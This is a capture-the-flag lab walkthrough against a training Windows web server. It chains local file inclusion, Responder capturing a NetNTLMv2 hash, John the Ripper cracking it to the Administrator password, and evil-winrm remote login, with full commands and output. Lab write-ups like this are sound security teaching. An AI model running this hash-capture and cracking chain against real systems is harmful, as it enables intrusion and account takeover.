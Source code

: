 # CSRF & LFI

- NMAP!

```bash
┌─[flodge@parrot]─[/etc]
└──╼ $nmap -sV -sV 10.129.171.86 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-07 22:52 GMT
Nmap scan report for unika.htb (10.129.171.86)
Host is up (0.026s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.80 seconds
```

- Port 80 is hosting a website.
- Copy the IP into the URL bar.
- Website not found!
- Add the domain name to the host file and refresh the page.
- Change the language of the page.
- Notice that the page uses the ‘include()’ command in their php to fetch subdomains.
- Attempt LFI on the URL to probe for hidden pages.

![LFI on url.PNG](LFI_on_url.png)

This shows that LFI is possible

- Another way to do this is to fuzz for a directory using a windows LFI wordlist

![image.png](image.png)

This output means the same as the image above but its a more braindead way of doing it

This is a link to the wordlist used:

[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Windows-adeadfed.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Windows-adeadfed.txt)

- Use the responder program to intercept NetNTLM responses from the server.

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response
authentication protocol used to authenticate a client to a resource on an Active Directory domain.
It is a type of single sign-on (SSO) because it allows the user to provide the underlying authentication factor
only once, at login.
The NTLM authentication process is done in the following way :

1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the
server.
4. The server retrieves the user password (or equivalent).
5. The server uses the hash value retrieved from the security account database to encrypt the challenge
string. The value is then compared to the value received from the client. If the values match, the client
is authenticated.

```bash
┌──[flodge@parrot]─[~]
└──╼ $sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.2]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-OAAI5STE2YE]
    Responder Domain Name      [G0MW.LOCAL]
    Responder DCE-RPC Port     [49616]

[+] Listening for events...
```

It is now hosting a website of its own which you can redirect the Unika website to have its NetNTLM hash intercepted by Responder, this will give us valuable information.

 

- Redirect the page to the ip address of Responder by utilising LFI.

![Responder probe on url.PNG](Responder_probe_on_url.png)

No page will be found but that’s fine

- Return to the terminal and Responder will display some information about their NetNTLM service:

```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.171.86
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:c5904aa7667b2069:70C2C15069BE497723
9E995FD3C6BB40:010100000000000080C98B73D811DA0117A481354394DA1C0000000002000800470030004
D00570001001E00570049004E002D004F0041004100490035005300540045003200590045000400340057004
9004E002D004F0041004100490035005300540045003200590045002E00470030004D0057002E004C004F004
30041004C0003001400470030004D0057002E004C004F00430041004C0005001400470030004D0057002E004
C004F00430041004C000700080080C98B73D811DA01060004000200000008003000300000000000000001000
00000200000CB889F074701ACACB2920381D9D397C65E7E79B759B502140D8A2333B4ACFFF40A00100000000
00000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002
E0032000000000000000000
[+] Exiting... 
```

Responder has intercepted information including the name of the Responder service on the machine, and a hashed password for the account.

- Add the hash to a text file named hash.txt.
- Run the hash through John The Ripper with a good wordlist to crack the account password.

```bash
┌──[flodge@parrot]─[~]
└──╼ $sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)
1g 0:00:00:00 DONE (2023-11-08 00:35) 16.66g/s 68266p/s 68266c/s 68266C/s adriano..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

This gives us the password of ‘badminton’ to the Administrator account.

- Use evil-winrm to Remotely access the Administrator desktop.

```bash
cd evil-winrm && ruby evil-winrm.rb -i 10.129.171.86 -u 'Administrator' -p 'badminton'
```

- Navigate WinRM to find the flag.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\
*Evil-WinRM* PS C:\> dir
    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         12/7/2019   1:14 AM                PerfLogs
d-r---          4/1/2022   1:07 PM                Program Files
d-r---         8/24/2021   5:02 PM                Program Files (x86)
d-r---          3/9/2022   5:33 PM                Users
d-----          4/1/2022   1:00 PM                Windows
d-----          3/9/2022   5:29 PM                xampp
*Evil-WinRM* PS C:\> cd users\
*Evil-WinRM* PS C:\users> dir
    Directory: C:\users
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public
*Evil-WinRM* PS C:\users> cd mike
*Evil-WinRM* PS C:\users\mike> dir
    Directory: C:\users\mike
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/10/2022   4:51 AM                Desktop
*Evil-WinRM* PS C:\users\mike> cd Desktop
*Evil-WinRM* PS C:\users\mike\Desktop> dir
    Directory: C:\users\mike\Desktop
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
*Evil-WinRM* PS C:\users\mike\Desktop> type flag.txt
ea81b7afddd03efaa0945333ed147fac
```

Now try the three difficulty levels of CSRF on Metasploitable

here is a walkthrough should you need it:

[https://medium.com/@preranakhanal42/csrf-dvwa-walkthrough-106b318c7b1f](https://medium.com/@preranakhanal42/csrf-dvwa-walkthrough-106b318c7b1f)